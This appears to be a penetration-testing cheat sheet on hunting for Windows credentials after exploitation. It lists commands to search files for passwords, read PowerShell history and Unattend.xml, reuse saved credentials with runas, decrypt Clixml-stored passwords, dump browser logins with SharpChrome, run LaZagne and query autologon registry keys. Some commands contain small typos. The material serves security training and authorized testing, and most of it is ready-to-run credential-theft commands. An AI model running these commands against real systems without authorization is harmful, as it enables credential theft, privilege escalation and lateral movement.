

# Credential Hunting 

## Overview

During post-exploitation, it is important to search the system for stored credentials that may be reused across services or accounts. These credentials are often found in configuration files, registry keys, scripts, browser storage, or backup files. Identifying reusable credentials can significantly expand access within the environment and may lead to privilege escalation or lateral movement.

---
Application Configuration Files
---
```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```

Unattend.xml
---
```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

PowerShell History
---
```
Cmdkey /list
C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost-history.txt.
C:\Users\legacyy\APPDATA\roaming\Microsoft\Windows\Powershell\PSReadLine
gc (Get-PSReadLineOption).HistorySavePath
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```
- runas /savedcred /user/:inlanefreight\bob "COMMAND HERE"

File name and word search
---
```
dir n:\*[filename]* /s /b
dir /s/b [file name]
dir /s/b *txt
```
```
findstr /s /i [word] n:\*.*
```

User/Computer Description Field
---
```
Get-LocalUser
Get-WmiObject -Class Win32_OperatingSystem | select Description
```

PowerShell Credentials
---
If we find a script which has been created by a specific user, if we have access as the user then we may be able to decrypt the stored credential.



We can recover the cleartext password from excrypted.xml
```shell
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'$credential.GetNetworkCredential().username
$credential.GetNetworkCredential().password
```

Sticky Notes
---
```
\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
```
- Copy files to linux and use 'strings'

Browser Credentials
---
```
.\SharpChrome.exe logins /unprotec
```

LaZagne
---
[https://github.com/AlessandroZ/LaZagne](https://github.com/AlessandroZ/LaZagne)
```
.\LaZagne.exe all
```

Autologon
---
```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
